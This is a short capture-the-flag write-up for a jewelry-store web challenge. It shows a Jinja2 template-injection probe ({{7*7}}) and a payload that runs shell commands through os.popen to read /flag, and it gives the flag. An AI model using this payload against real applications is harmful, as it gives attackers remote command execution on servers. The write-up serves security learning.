



# Baby chain shop

## Summary

Flag: `UAD{J1nj4_t3mpl4t1ng}`

Description: Our jewelry store has just launched a public bug bounty, would you be able to report any vulnerability?

## Write-up

We have a simple website:



There is a search bar, trying multiple injections like SQLi, NoSQLi we find that is vulnerable to SSTI with the payload `{{7*7}}`:



From there we can get command injection with a more elaborated payload:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}
```

